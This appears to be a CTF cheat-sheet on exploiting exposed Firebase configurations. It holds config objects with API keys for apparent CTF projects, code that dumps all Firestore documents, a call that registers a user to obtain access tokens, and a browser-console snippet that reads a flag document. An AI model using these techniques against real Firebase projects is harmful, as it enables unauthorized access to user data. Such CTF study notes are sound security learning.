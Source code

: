 # Firebase Exploits

## Credentials Given to Access Firebase/Firestorage Service

Eg. the below code left exposed:

```js
const firebaseConfig = {
  apiKey: 'AIzaSyDN_2EZMN-1QCJ4V13WYUTV4UKA4Im8lLM',
  authDomain: 'websec-ctfs.firebaseapp.com',
  projectId: 'websec-ctfs',
  storageBucket: 'websec-ctfs.appspot.com',
  messagingSenderId: '617149347368',
  appId: '1:617149347368:web:e34a2bf5fe52fb1b77a71d'
}
```

In this case, we can simply download the files and run/host it ourselves, adding our own code to dump all the firestorage documents.

```js
const colRef = collection(db, `${collectionName}`);
const docsSnap = await getDocs(colRef);
docsSnap.forEach(doc => {
  console.log(JSON.stringify(doc.data()));
})
```

Another case:

```js
firebase.initializeApp({
  "apiKey": "AIzaSyDmLIX31LAFvb1hefXs-e6Baspcfg6ran8",
  "authDomain": "udctf-fire.firebaseapp.com",
  "databaseURL": "https://udctf-fire-default-rtdb.firebaseio.com",
  "messagingSenderId": "272888152617",
  "projectId": "udctf-fire",
  "storageBucket": "udctf-fire.appspot.com"
});
```

We can paste this into console, prepending `app =` to save the instance.

Following that:

```js
app.auth().createUserWithEmailAndPassword('email@example.com','Abc123!')
```

Then, run `app.auth()` and `ctrl+f` the UID, access token etc. Use the API either `/oracle` or check the [documentation](https://firebase.google.com/docs/reference/rest/database). Honestly idk what is going on Firebase is weird.

## Solving within Console

If you're too lazy to host or run yourself, then

```javascript
import("https://www.gstatic.com/firebasejs/9.17.1/firebase-app.js").then((firebase) => {
    const app = firebase.initializeApp(firebaseConfig);
    import("https://www.gstatic.com/firebasejs/9.17.1/firebase-firestore.js").then((firestore) => {
    const db = firestore.getFirestore(app);
    firestore.getDoc(firestore.doc(db, `/flag/flag`)).then((a) => {console.log(a.data())})
    })
})
```